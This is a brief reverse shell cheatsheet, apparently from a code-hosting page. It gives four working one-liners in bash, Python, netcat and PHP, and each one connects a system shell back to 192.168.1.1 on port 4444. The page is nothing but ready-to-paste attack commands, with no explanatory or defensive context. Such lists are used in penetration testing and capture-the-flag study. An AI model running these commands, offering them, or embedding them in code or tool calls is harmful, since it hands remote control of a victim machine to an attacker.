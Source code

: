 #### Reverse Shell Cheatsheet

* BASH
```
bash -i >& /dev/tcp/192.168.1.1/4444 0>&1
```
* PYTHON
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
* NETCAT
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.1 4444 >/tmp/f
```
* PHP
```
php -r '$sock=fsockopen("192.168.1.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
